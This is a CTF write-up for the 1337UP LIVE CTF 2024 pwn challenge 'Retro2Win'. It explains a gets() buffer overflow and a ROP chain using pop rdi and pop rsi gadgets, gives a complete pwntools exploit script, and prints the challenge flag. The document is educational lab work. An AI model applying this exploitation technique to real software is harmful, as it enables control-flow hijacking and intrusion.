


# 1337UP LIVE CTF 2024 Writeups
I've been diving into binary exploitation for the past three months, and honestly, it's been a wild journey! ☠️ If you don’t know, binary exploitation is all about finding bugs in programs and using them to break stuff (in a good way, of course). I got into it because I’m super into cybersecurity and hacking, and this stuff is just next level. In this post, I’ll walk you through a pwn challenge I could solve. 

Category: `Pwn`

Title: Retro2Win

Description:
So retro.. So winning..

First, we check the file type and the memory protection involved with the binary.

Explanation:

- **[Arch: amd64-64-little]()**
The program is 64-bit, using little-endian format.

- **[RELRO: Partial RELRO]()**
Only partial memory protection is in place, so it's not fully secured.

- **[Stack: No canary found]()**
No stack protection, making buffer overflow attacks easier.

- **[NX: NX enabled]()**
Data execution prevention is active, so injected code can’t be run from the stack.

- **[PIE: No PIE]()**
The program always loads at the same memory address, which makes it easier to target in exploits.

- **[Stripped: No]()**
Contains debugging symbols, making analysis easier.

## Understanding the Main Menu
Here’s the decompiled main() function:


  
  


The program runs in a loop, presenting a menu to the user.

Menu options include:

- **[Option 1:]()** explore_forest()

- **[Option 2:]()** battle_dragon()

- **[Option 3:]()** Quit the game.

A hidden option exists: entering 0x539 (1337 in decimal) calls enter_cheatcode().

## The Vulnerable enter_cheatcode() Function
Here’s the decompiled code:

- **** The function uses gets() to read user input into a 16-byte buffer (local_18).

- **** Vulnerability: gets() does not check input length, making the function vulnerable to a buffer overflow.

- **** This overflow can overwrite the return address, providing an opportunity to control program execution.

## The cheat_mode() Function
This function is the goal of the exploit. It activates cheat mode and retrieves the flag:

Explanation:

The function activates if

- **** param_1 == 0x2323232323232323 && param_2 == 0x4242424242424242

- **** If parameters are correct, it attempts to open flag.txt and print its contents.

- **** If parameters are incorrect, the function exits without revealing the flag.

To trigger cheat_mode(), we need to overflow the buffer in enter_cheatcode() and overwrite the return address to jump to this function while controlling its parameters.

## Exploitation Plan

Buffer Overflow:

Overflow the 16-byte buffer in enter_cheatcode() to overwrite the return address.

Control Parameters:

Place `0x2323232323232323` and `0x4242424242424242`  in the registers to satisfy cheat_mode() conditions.

Jump to cheat_mode():

Redirect execution to the cheat_mode() function.

Retrieve the Flag:

Once cheat mode is activated, the program will read and print the flag from flag.txt.

## Finding the Padding

We just need to find offset values to overflow the buffer and RBP to reach the RIP/Return address. For this, I use cyclic 100 in gdb-pwndbg and we check the register RBP register.

- **[RSP (Stack Pointer)]()** : Points to the top of the stack in memory. It is used to manage the function call stack, which stores local variables, function parameters, return addresses, and other data during program execution.

- **[RIP (Instruction Pointer)]()** : Points to the memory address of the next instruction to be executed. It keeps track of the current position within the program’s code.

- **[RDI, RSI, RDX, RCX, R8, R9 (General-Purpose Registers)]()** : These registers are used for general data manipulation and passing function arguments. They have specific calling conventions in function calls.

- **[RAX (Accumulator Register)]()** : Often used as the primary register for arithmetic and logical operations. It also stores the return value of a function.

We can see that RSP has been overwritten with “gaaahaaa”.

We get an offset of 24 bytes. So 24 junk characters to buffer overflow and reach RIP/Return address region

We can find a perfect gadget pop rdi & pop rsi for our exploit using ROPgadget. 👾

## Final Exploit
~~~python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
break *0x000000000040073e
continue
'''.format(**locals())

exe = './retro2win'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
p = start()

#cheat_mode = 0x401196
offset = 24
param_1 = 0x2323232323232323
param_2 = 0x4242424242424242
pop_rdi = 0x4009b3
pop_rsi = 0x4009b1

payload = flat(
    b'A' * offset,
    p64(pop_rdi),
    p64(param_1),
    p64(pop_rsi),
    p64(param_2), 
    0x0, #junk for r15
    elf.symbols['cheat_mode']
       
)

p.recvuntil(b'Select an option:\n')
p.sendline('1337')
p.recvuntil(b'Enter your cheatcode:\n')
p.sendline(payload)

output = p.recvuntil(b'FLAG:')  
print(output)
p.interactive()
~~~

Why we put pop rdi first instead of pop rsi 🧐. Chekout this page for more better understanding [Calling Conventions](https://ctf101.org/binary-exploitation/what-are-calling-conventions/)

There we go! 🤪


INTIGRITI{3v3ry_c7f_n33d5_50m3_50r7_0f_r372w1n}


